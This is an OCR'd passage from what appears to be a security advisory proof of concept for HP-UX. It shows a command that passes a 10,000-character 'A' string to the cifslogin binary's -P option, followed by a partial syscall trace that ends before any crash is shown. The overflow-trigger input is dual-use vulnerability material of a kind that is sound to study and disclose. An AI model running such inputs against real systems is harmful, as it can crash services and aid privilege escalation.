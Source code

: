     Download for HP-UX:

    http://hpux.cs.utah.edu/hppd/hpux/Sysadmin/tusc-7.3/



    Proof of Concept:


    $ ./tusc /opt/cifsclient/bin/cifslogin -P `perl -e '{print "A"x10000}'`

    execve("/opt/cifsclient/bin/cifslogin", 0x7f7f2b68, 0x7f7f2b78) ........................................ = 0 [32-bit]
    utssys(0x7f7f4c50, 0, 0) ............................................................................... = 0
    open("/usr/lib/dld.sl", O_RDONLY, 025564) .............................................................. = 3
    read(3, "02\v010e0512@ \0\0\0\0\0\0\0\0\0".., 128) ..................................................... = 128
    lseek(3, 128, SEEK_SET) ................................................................................ = 128
    read(3, "10\0\004\0\0\0( \002\0ac\0\0\0\0".., 48) ...................................................... = 48
    mmap(NULL, 131244, PROT_READ|PROT_EXEC, MAP_SHARED|MAP_SHLIB, 3, 0x9000) ............................... = 0xc0010000
    mmap(NULL, 14696, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_SHLIB, 3, 0x2a000) ................... = 0x7b050000
    close(3) ............................................................................................... = 0
    getuid() ............................................................................................... = 110 (110)
    getuid() ............................................................................................... = 110 (110)
    getgid() ............................................................................................... = 102 (102)
    getgid() ............................................................................................... = 102 (102)
    mmap(NULL, 8192, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, NULL) .................. = 0x7b04e000
    sysconf(_SC_CPU_VERSION) ............................................................................... = 532
    open("/opt/graphics/OpenGL/lib/libogltls.sl", O_RDONLY, 0) ............................................. ERR#2 ENOENT
    open("/usr/lib/libc.2", O_RDONLY, 0) ................................................................... = 3
    fstat(3, 0x7f7f54c8) ................................................................................... = 0
    read(3, "0214010e0512@ \0\0\0\0\0\0\0\0\0".., 128) ..................................................... = 128
    lseek(3, 128, SEEK_SET) ................................................................................ = 128
    read(3, "10\0\004\0\0\0( \014( , \0\010\0".., 48) ...................................................... = 48
    read(3, "80\0\0\v\0\0\004\0\0\0\0", 12) ................................................................ = 12
    lseek(3, 446464, SEEK_SET) ............................................................................. = 446464
    read(3, "058cy 10\0\0\a90\0\0M e8\0\0\002".., 112) ..................................................... = 112
    mmap(NULL, 1323008, PROT_READ|PROT_EXEC, MAP_SHARED|MAP_SHLIB, 3, 0x6d000) ............................. = 0xc0100000
    mmap(NULL, 45056, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS|MAP_SHLIB, -1, NULL) ....... = 0x7b043000
    mmap(0x7b03b000, 32768, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_SHLIB, 3, 0x1b0000) .. = 0x7b03b000
    mmap(NULL, 16384, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, NULL) ................. = 0x7b037000